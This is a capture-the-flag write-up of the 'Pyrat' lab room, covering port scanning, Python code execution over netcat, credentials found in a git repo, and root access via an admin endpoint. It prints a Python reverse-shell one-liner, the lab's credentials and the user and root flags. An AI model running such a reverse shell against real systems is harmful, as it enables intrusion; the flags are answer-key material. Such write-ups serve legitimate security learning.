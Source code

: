```yaml
---
Title: CTF Walkthrough 4
categories: [CTF, CTF_walkthrough]
tags: [CTF]
---
```

"<span style="color:yellow">*Becoming a hacker will take intelligence, practice, dedication, and hard work. Therefore, you have to learn to distrust attitude and respect competence of every kind.*</span>"


![cover](/pictures/SWS_pictures/write_up/pyrat/cover.png)

### Room Information
- Room Name: Pyrat
- Difficulty Level: Easy
- Room type: Challenges(CTF)

![cover](/pictures/SWS_pictures/write_up/pyrat/machine.png)

### Reconnaissance
![cover](/pictures/SWS_pictures/write_up/pyrat/info.png)

Let’s run nmap and check what ports are open.

![cover](/pictures/SWS_pictures/write_up/pyrat/nmap.png)

I discovered 2 open ports: 22(ssh) and 8000(SimpleHTTP/0.6 Python/3.11.2). let’s check the website with port 8000.

![cover](/pictures/SWS_pictures/write_up/pyrat/website.png)

It shows try more basic connection, meaning try netcat.

![cover](/pictures/SWS_pictures/write_up/pyrat/netcat.png)

Whichever method I use is not defined. This error is related to python. I can run that basic python script since simpleHTTP server is running let’s try python code execution.

![cover](/pictures/SWS_pictures/write_up/pyrat/pycode.png)

Search for exploiting python code execution in web

![cover](/pictures/SWS_pictures/write_up/pyrat/norespone.png)

No response so try with eval() function.

![cover](/pictures/SWS_pictures/write_up/pyrat/invalid.png)

It showed an invalid syntax error, which means our code was interpreted with python.

![cover](/pictures/SWS_pictures/write_up/pyrat/wwwdata.png)

We got code execution as www-data. Now let’s try to get the reverse shell. For that search reverse shell cheat sheet. 

![cover](/pictures/SWS_pictures/write_up/pyrat/cheatsheet.png)

From the ipv4, copy the second line, modify the ip and port number as yours, and use execl() function. The command will look like the following:

exec('import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")')

Before running this command we have to start nc.

![cover](/pictures/SWS_pictures/write_up/pyrat/exec.png)

![cover](/pictures/SWS_pictures/write_up/pyrat/connected.png)

Run this command: python3 -c 'import pty;pty.spawn("/bin/bash")'

### Now Let’s get to the User. 

![cover](/pictures/SWS_pictures/write_up/pyrat/search.png)

We don’t have permission to ‘think’ folder but found a git repo on /opt/dev directory. 

![cover](/pictures/SWS_pictures/write_up/pyrat/git.png)

When the credential for the user ‘think’.

![cover](/pictures/SWS_pictures/write_up/pyrat/cred.png)

Username: think <br>
Password: TH1NKINGPirate$


With those credentials let’s login to ssh.

![cover](/pictures/SWS_pictures/write_up/pyrat/think.png)

![cover](/pictures/SWS_pictures/write_up/pyrat/user.png)

Finally, boom…..we got the user flag. 

### Privilege Escalation
The next task is to get the root.txt flag. It isn’t as easy as I thought.  User think can’t run sudo on the pyrat machine.

![cover](/pictures/SWS_pictures/write_up/pyrat/su.png)

If that is the case we need to find different way. So let’s use git repo. Earlier we could run it. Let’s run from think.

![cover](/pictures/SWS_pictures/write_up/pyrat/log.png)

![cover](/pictures/SWS_pictures/write_up/pyrat/diff.png)

There is a ‘get_this_enpoint’ function, let’s check that shell function.

![cover](/pictures/SWS_pictures/write_up/pyrat/shell.png)

Shell function also gives access as www-data that we already have. So let’s write a python script to  find some_endpoint

![cover](/pictures/SWS_pictures/write_up/pyrat/script.png)

Now let’s run it

![cover](/pictures/SWS_pictures/write_up/pyrat/admin.png)

admin is one of the endpoint, so let’s find the password for admin.

![cover](/pictures/SWS_pictures/write_up/pyrat/password.png)

![cover](/pictures/SWS_pictures/write_up/pyrat/pass.png)

We got the password for admin that is abc123. 

Next step is start netcat and type admin and then password

![cover](/pictures/SWS_pictures/write_up/pyrat/root.png)

Now I have root access. 

![cover](/pictures/SWS_pictures/write_up/pyrat/rootflag.png)

Finally, I got the root.txt


### Flag Captured
user.txt flag: 996bdb1f619a68361417cabca5454705<br>
root.txt flag:  ba5ed03e9e74bb98054438480165e221
